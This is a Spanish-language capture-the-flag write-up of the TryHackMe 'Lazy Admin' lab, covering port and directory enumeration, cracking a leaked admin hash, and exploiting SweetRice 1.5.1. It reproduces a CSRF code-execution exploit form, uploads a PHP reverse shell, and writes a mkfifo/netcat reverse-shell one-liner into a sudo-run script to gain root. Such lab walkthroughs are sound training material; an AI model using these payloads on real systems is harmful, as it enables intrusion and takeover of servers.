 # Lazy Admin WriteUp
### Español & English

## Enumeración

#### :ship: Nmap - Enumeración de puertos
Para la enumeración de puertos de la máquina utilizaremos `nmap`, una herramienta que nos permite scanear los puertos abiertos y los servicios que corren en una dirección IP. Comenzaremos con enumerar los primeros 1000 puertos con el siguiente comando:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -n -T4 -p 1-1000 10.10.109.87 -oN portenum

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:21 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con `-n` especificamos que no se realice nunca la resolución de DNS lo que agiliza el proceso de escaneo, con `-T4` especificamos el nivel de agresividad y evitamos que el tiempo de expiración de los sondeos en los puertos TCP no excedan de 10ms. Por último guardamos los resultados en el archivo `portenum` en formato nmap con el argumento `-oN`.

Ahora procedemos con la enumeración de los servicios y sus versiones de cada uno de los puertos abiertos que previamente habiamos encontrado:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -sC -sV -p22,80 10.10.109.87 -oN portdetails

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:38 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

#### :page_with_curl: Wfuzz - Enumeración de directorios

Como podemos observar existe un servicio HTTP por el puerto 80 al que podemos acceder con la URL `http://10.10.109.87:80` en nuestro navegador:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/index.png)

Accedemos a la página de defecto del servidor Apache2.

En este punto comencé a buscar archivos `robots.txt`, `login.php`o directorios como `/uploads` que son bastante comunes en los CTFs, pero no obtuve resultados.

Para la enumeración de directorios utilizaremos wfuzz como herramienta de fuzzeo. Las wordlists que empleé fueron dos, con la primera (`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) no obtuve resultados ya sin especificar extensión o con las extensiones `php` y `html`. Con la segunda wordlist (`/usr/share/wfuzz/wordlist/general/common.txt`) si que salieron resultados:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.109.87/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000204:   301        9 L      28 W     314 Ch      "content"                                                                                                                                                                 

Total time: 15.05663
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 63.02869
```

Si fuzzeamos de nuevo este directorio podemos acceder a otros archivos ocultos:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.98.202/content/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/content/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000412:   301        9 L      28 W     321 Ch      "images"                                                                                                                                                                  
000000416:   301        9 L      28 W     318 Ch      "inc"                                                                                                                                                                     
000000454:   301        9 L      28 W     317 Ch      "js"                                                                                                                                                                      

Total time: 21.64260
Processed Requests: 949
Filtered Requests: 946
Requests/sec.: 43.84869
```

Primero revisamos la URL `http://10.10.109.87/content`, donde podemos deducir que se utiliza el gestor de contenido SweetRice:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/sweetrice.png)

Al inspeccionar la página podemos encontrar un link de un archivo escrito en JavaScript (`.js`) debajo del tag de <title>.
Si nos fijamos en la ubicación del archivo podemos encontrarnos con el directorio que previamente habiamos fuzzeado.
  
Revisando el archivo `SweetRice.js` se ve una versión desde el que se utiliza el script (`0.5.4`). Con la idea de encontrar credenciales, con el atajo `Ctrl+F` filtramos la palabra `pass` con la que se obtienen dos resultados, sin embargo no hay ninguna contraseña o usuario.

Si revisas cuidadosamente los demás scripts alojados en `http://10.10.109.87/content/js` puedes sacar también el directorio de `/images`.
Mirando los archivos en `/images` no encontramos nada que nos revele datos que puedan vulnerar la máquina.

Por último, nos faltaría revisar el directorio `/inc` en el que encontremos diferentes carpetas y archivos en formato `.php`:

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/inc.png)

Si accedemos al archivo de texto con nombre `lastest.txt` podemos listar una versión, que como dice el nombre sería la más reciente de uno de los servicios que corre la página web. El servicio que habíamos encontrado previamente es el CMS SweetRice. Lo cual nos servirá mas adelante para buscar exploits relacionados con esta versión (`1.5.1`).

También podemos encontrar una carpeta con nombre `mysql_backup`, dentro de esa carpeta podemos descargar la copia de seguridad de una base de datos:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/mysql.png)

Con el comando `strings` listamos todos los caracteres imprimibles del archivo:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ strings mysql_bakup_20191129023059-1.5.1.sql 
```

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/creds.png) 

Si buscamos entre los resultados podemos encontrar una línea con el nombre de usuario de la cuenta admin (`manager`) y un hash md5 de la contraseña (`42f749ade7f9e195bf475f37a44cafcb`). El hash lo podemos desencriptar [aquí](https://crackstation.net/).

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/hash.png)

## Exploitation

#### :collision:Método - 1

Como ya obtuvimos qué versión de SweetRice se está empleando podemos comprobar si ésta es vulnerable. Una simple búsqueda en Google nos dará varios resultados:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/google.png)

En este método nos centraremos en el tercer enlace, el cual nos detalla el procedimiento a seguir para obtener un Code Execution:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Tal y como lo describe necesitamos tener acceso a una cuenta admin del CMS para luego acceder al panel de ads. Una vez ahí subir el código que nos dará una reverse shell sustituyendo `<?php echo '<h1> Hacked </h1>'; phpinfo();?>` por nuestro código. En mi caso utilicé `/usr/share/webshells/php/php-reverse-shell.php` cambiando los parámetros de la IP con mi dirección y el puerto por el 1234.

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/exploit1.png)

Una vez hayamos subido el archivo ponemos en escucha el puerto `1234` con netcat:

```console
kimera@vault:~/Machines/THM/LazyAdmin/exploit$ nc -nlvp 1234
listening on [any] 1234 ...
```

Y entramos en la URL donde se aloja el archivo que recién subimos: `http://10.10.109.87/content/inc/ads/reverse.php`. Con esto deberíamos haber obtenido una shell.

#### :collision:Método - 2

Para este segundo método utilizaremos el primer enlace de la búsqueda que hicimos previamente. Este nos proporciona un exploit escrito en Python, el cual, cuando lo ejecutemos con el comando `python nombreexploit.py`, nos pedirá el host que en nuestro caso es `10.10.109.87/content` que nos lo pedirá entre comillas, así como el resto de parámetros necesarios: usuario, contraseña, nombre del archivo que queramos subir. En mi caso utilizaré de nuevo una reverse shell en PHP.

Ponemos en escucha el puerto con el que configuramos la reverse shell y visitamos la URL que nos proporciona el output del exploit.

## Escalación de privilegios

#### :triangular_flag_on_post:Primera Flag

Nos dirigimos al directorio `/home/` para ver a qué carpeta de directorios de usuario tenemos acceso y vemos que la de `itguy` es accesible. Dentro de este usuario encontramos la primera flag:

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/user.png)

Con el comando `id` podemos ver que somos el usuario `www-data`. Para la escalación de privilegios procedemos con alguna enumeración básica de Linux. Con el comando `sudo -l` podemos ver qué comandos podemos correr con permisos de root.

```console
$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Como podemos ver, el usuario `www-data` puede ejecutar un archivo escrito en Perl. Para previsualizar el contenido de este archivo podemos hacer uso de `cat`:

```console
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Al revisar el código vemos que edita otro archivo `sh` del directorio `etc`, el cual si revisamos los permisos con `ls -l /etc/copy.sh` tenemos permiso para escribir contenidos en él. Con el comando `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $TU_IP 5757 >/tmp/f" > /etc/copy.sh`.
Ahora ejecutamos el archivo en Perl, no sin antes poner en escucha el puerto 5757:

```console
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

#### :triangular_flag_on_post:Segunda Flag

Si hacemos un `id` vemos que somos usuario root. Ahora ya podemos acceder al `/root/root.txt`:

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/rootflag.png)
